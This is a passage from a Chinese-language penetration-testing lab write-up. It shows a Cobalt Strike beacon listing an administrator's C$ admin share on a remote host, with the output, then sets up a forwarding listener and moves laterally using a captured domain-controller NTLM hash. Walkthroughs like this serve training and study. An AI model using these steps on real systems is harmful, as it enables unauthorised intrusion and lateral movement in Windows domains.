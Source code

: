3、降权后 IPC 空连接成功

```beacon
beacon> shell dir \\10.10.10.201\c$\users\administrator\
[*] Tasked beacon to run: dir \\10.10.10.201\c$\users\administrator\
[+] host called home, sent: 73 bytes
[+] received output:
 驱动器 \\10.10.10.201\c$ 中的卷没有标签。
 卷的序列号是 4231-A1CD

 \\10.10.10.201\c$\users\administrator 的目录

2021/05/04  15:34    <DIR>          .
2021/05/04  15:34    <DIR>          ..
2021/04/24  12:59    <DIR>          Contacts
2021/04/24  12:59    <DIR>          Desktop
2021/04/24  12:59    <DIR>          Documents
2021/04/24  12:59    <DIR>          Downloads
2021/04/24  12:59    <DIR>          Favorites
2021/04/24  12:59    <DIR>          Links
2021/04/24  12:59    <DIR>          Music
2021/04/24  12:59    <DIR>          Pictures
2021/05/04  15:36                48 root.txt
2021/04/24  12:59    <DIR>          Saved Games
2021/04/24  12:59    <DIR>          Searches
2021/04/24  12:59    <DIR>          Videos
               1 个文件             48 字节
              13 个目录 50,828,111,872 可用字节
```

4、上线 cs

配置 12server-redis 的 cs 里的转发上线的监听器

<img src=".\图片\Snipaste_2023-05-17_14-16-53.png" alt="Snipaste_2023-05-17_14-16-53" style="zoom:67%;" /> 

然后用之前抓到域控的NTML进行横向，会话为之前降权 12server-ex13 的 cncat\administrator 的会话
